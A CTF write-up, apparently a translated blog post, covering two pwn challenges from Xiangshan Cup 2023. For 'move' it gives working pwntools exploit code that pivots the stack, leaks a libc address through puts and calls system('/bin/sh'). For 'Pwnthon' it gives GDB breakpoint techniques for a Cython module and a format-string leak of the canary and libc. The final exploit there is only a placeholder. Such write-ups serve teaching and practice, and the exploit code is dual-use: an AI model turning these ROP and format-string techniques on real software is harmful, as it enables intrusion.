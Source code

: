 ```yaml
---
title: 「PWN」【Xiangshan Cup 2023】Writeup WP Reproduction

tags: ["CTF", "Pwn", "writeup", "wp"]

authors: [nova]
---
```


Two simple PWN challenges, simply updated, documenting Python debugging along the way.

## move

Simply a check-in challenge, where we need to leak the libc address to call system after getting an initial stack migration, eliminating the need for a second migration. The code snippet is omitted.

It's worth noting that before the second read, RSP is pointing to bss + 8, so when we call read, it reaches bss, and the return address goes directly to bss, eliminating the need for a second migration.

```python
pop_rdi = 0x0000000000401353
bss = 0x4050a0
leave_ret = 0x40124b

sendafter(b'again!', p64(pop_rdi) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(elf.symbols['main']))
sendafter(b'number', p32(0x12345678))
dbg(pause_time=5)
sendafter(b'TaiCooLa', b'A'*0x30 + p64(bss-8) + p64(leave_ret))

libc.address = u64(recv(6).ljust(8, b'\x00')) - libc.symbols['puts']
print(f'libc: {hex(libc.address)}')
sendlineafter(b'again!', p64(pop_rdi) + p64(libc.search(b'/bin/sh').__next__()) + p64(libc.symbols['system']))
interactive()
```

## Pwnthon

A .so file written using CPython, requiring the same Python version for importing.

Noting that the .so file is dynamically loaded, breakpoints cannot be set directly using `gdb.debug`. However, it was observed during testing that setting breakpoints at the `read` function did not allow for continuing past the breakpoint.

:::info

It is speculated afterwards that the breakpoint might have been set at the wrong position, which is difficult to evaluate.

:::

Therefore, a slightly tricky approach was used by setting a breakpoint at the position `PyImport_ImportModule+4`, to see which package triggers the loading of the .so file. Once identified, another breakpoint can be set conditionally for debugging.

```python
b *PyImport_ImportModule+4 if strcmp((char*)$rdi, "datetime") == 0
```

There is also a technique for setting breakpoints, where it was discovered while importing into IDA that it contains debug information, making it possible to identify which file and line a specific function belongs to. GDB automatically handles the offset, making it more convenient. Of course, due to the presence of symbol tables, `func_name+offset` can be used directly as well.

![image-20231017090646706](https://oss.nova.gal/img/image-20231017090646706.png)

```python
b app.c:2963
# or
b __pyx_f_3app_Welcome2Pwnthon+36
```

After discussing the debugging methods, let's proceed directly to the exploit. The vulnerability is also quite apparent, a format string vulnerability along with a stack overflow.

![image-20231017091040667](https://oss.nova.gal/img/image-20231017091040667.png)

However, Python cannot use methods like `%n$`, therefore, it needs to be written step by step, leading to no arbitrary address writing method. Nevertheless, upon GDB inspection, it was found that there were addresses like `open64+232` on the stack that could be leaked, along with the canary, to achieve the leak.

![image-20231017092014997](https://oss.nova.gal/img/image-20231017092014997.png)

It is noteworthy that in Python, rsp is used to store the return address, so even though it is `%31$p`, it effectively corresponds to `%30$`.

```python title=exp.py
sendline(b'%p.'*0x1e)
resp = recvline(keepends=False).split(b'.')
print(resp)
canary = int(resp[-2], 16)
success(f'>> canary = {hex(canary)}')
libc.address = int(resp[-8], 16) - 0x1147b8
success(f">> libc = {hex(libc.address)}")
```

After obtaining the leak, it's a matter of stack overflow to write to `system`.

```python
# Exploit code
<Exploit code here>
```

```bash
python exp.py -a main.py venv/bin/python # venv/bin/python corresponding to version 3.7
```

<!-- AI -->
